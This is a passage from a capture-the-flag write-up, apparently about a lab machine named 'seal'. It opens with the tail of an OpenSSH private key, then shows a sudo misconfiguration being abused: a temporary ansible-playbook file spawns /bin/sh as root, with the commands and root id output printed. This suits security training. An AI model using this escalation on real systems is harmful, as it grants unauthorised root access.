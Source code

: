 ```console
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----

```

## Privilege escalation
Once logged in as `luis` we run `sudo -l`: 
```console
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
luis@seal:~$ 

```
On [gtfobins](https://gtfobins.github.io/gtfobins/ansible-playbook/) we find a straightforward way to exploit our sudo rights to the ansible-playbook binary.

```console
luis@seal:~$ TF=$(mktemp)
luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~$ sudo /usr/bin/ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] ***************************************************************************************************************************************************************************************************************************

TASK [Gathering Facts] *********************************************************************************************************************************************************************************************************************
ok: [localhost]

TASK [shell] *******************************************************************************************************************************************************************************************************************************
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
Rooted!